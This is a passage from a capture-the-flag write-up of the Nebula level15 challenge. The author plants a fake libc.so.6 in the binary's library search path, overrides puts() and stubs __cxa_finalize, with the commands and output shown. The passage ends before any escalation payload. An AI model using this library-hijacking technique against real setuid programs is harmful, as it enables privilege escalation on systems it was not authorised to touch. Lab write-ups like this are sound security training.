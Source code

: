 I was a little unsure how to get something useful going from here. I touched a file called `libc.so.6` in `/var/tmp/flag15/` and launched the binary, just to get a starting point:

```bash
level15@nebula:/var/tmp/flag15$ touch libc.so.6
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: error while loading shared libraries: /var/tmp/flag15/libc.so.6: file too short
```

I was not expecting much from that attempt, but it helped me get started. Eventually I figured I could have a look at `flag15` and check which libc function I could "override??" from the RELO table:

```bash
level15@nebula:/var/tmp/flag15$ objdump -R ~flag15/flag15

/home/flag15/flag15:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   puts
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main
```

`puts()` seems like an ok target for me! This is probably the function used to print the *strace it!* message. At this stage I figured I could take the same route as I did with the previous `LD_PRELOAD` attack, except this time I just 'fake' it in my fake libc. I looked up the `puts()` arguments from the man page again and started a new function:

```bash
level15@nebula:/var/tmp/flag15$ cat fake_libc.c
#include<stdio.h>
int puts(const char *s) {
    printf("Not the real puts!\n");
}

level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC fake_libc.c -o libc.so.6

level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

Ow, that exploded pretty badly it seems. From the error message I figured the function `__cxa_finalize` simply did not exist in my library, so all I had to do was add it... Right? I googled the [function arguments](https://refspecs.linuxbase.org/LSB_3.2.0/LSB-Core-generic/LSB-Core-generic/baselib---cxa_finalize.html) and added it to my fake libc:

```bash
level15@nebula:/var/tmp/flag15$ cat fake_libc.c
#include<stdio.h>
void __cxa_finalize(void * d) {
}

int puts(const char *s) {
    printf("Not the real puts!\n");
}
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC fake_libc.c -o libc.so.6
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
```